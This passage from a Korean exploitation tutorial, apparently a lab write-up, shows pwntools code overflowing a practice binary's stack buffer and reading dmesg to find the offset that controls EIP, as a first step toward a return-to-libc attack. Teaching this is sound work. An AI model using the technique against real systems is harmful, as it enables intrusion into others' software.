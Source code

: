 아쉽게도 setregid함수나 execve함수가 코드내에서 사용되지는 않았습니다. 그래서 libc 내부에 있는 함수를 호출하는 것을 목표로 하겠습니다. libc로 가기전에 우선 return address를 corruption시켜서 EIP가 의도치 않은 주소로 리턴되도록 해봅시다. 다양한 방법으로 return address를 덮는 payload를 만드는 방법이 있는데, 여기서는 정확한 계산을 하지 않고 개략적인 방법을 써서 payload를 찾도록 하겠습니다. `python` `pwntools`를 이용합니다.

```python
from pwn import *

PAYLOAD = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"

p = process("./ex1")
p.recv()
p.sendline(PAYLOAD)
p.recv()
```

이를 python console에서 실행하면 아래와 같이 보입니다.

```sh
>>> from pwn import *
PAYLOAD = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"

p = process("./ex1")
p.recv()
p.sendline(PAYLOAD)>>>
>>> PAYLOAD = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
>>>
>>> p = process("./ex1")
[x] Starting local process './ex1'
[+] Starting local process './ex1': pid 2180
>>> p.recv()
'stack   : 0xffa02a40\nsystem(): 0xf7d5b790\nprintf(): 0xf7d6a2a0\nPassword:'
>>> p.sendline(PAYLOAD)
>>> p.recv()
[*] Process './ex1' stopped with exit code -11 (SIGSEGV) (pid 2180)
'Invalid Password!\n'
```

유요하지 않은 주소를 참조하였기 때문에 segmentation fault가 발생했습니다. 이제 `dmesg` 명령어를 사용해서 kernel 로그를 확인해봅시다.

``` sh
$ dmesg

...
[  928.654369] ex1[2359]: segfault at 4c4c4c4c ip 000000004c4c4c4c sp 00000000ffa02a00 error 14 in libc-2.31.so[f7d1a000+19000]

````

crash가 발생했을 당시 EIP가 0x4c4c4c4c를 가리키고 있어서 crash가 발생했음을 알려줍니다. 그렇다면 0x4c4c4c4c는 무엇일까요? python에서 확인해보면 `L` 임을 알수 있습니다.

```python

>>> chr(0x4c)
'L'
```
